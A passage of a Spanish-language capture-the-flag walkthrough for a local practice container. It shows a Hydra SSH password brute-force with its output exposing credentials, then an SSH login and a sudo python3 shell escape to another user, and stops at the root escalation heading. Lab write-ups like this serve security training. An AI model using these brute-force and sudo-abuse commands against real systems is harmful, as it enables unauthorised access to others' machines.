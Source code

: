```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-09 05:58:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Por lo que vemos obtenemos las credenciales del usuario `bobby`, por lo que nos conectaremos por `SSH`.

### SSH

```shell
ssh bobby@<IP>
```

Metemos como contraseña `chocolate` y veremos que estamos dentro.

## Escalate user pinguinito

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bobby on c5b862b2d8af:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on c5b862b2d8af:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Vemos que podemos ejecutar el binario `python3` como el usuario `pinguinito`, por lo que haremos lo siguiente:

```shell
sudo -u pinguinito python3 -c 'import os; os.system("/bin/bash")'
```

Y con esto seremos el usuario `pinguinito`.

## Escalate Privileges
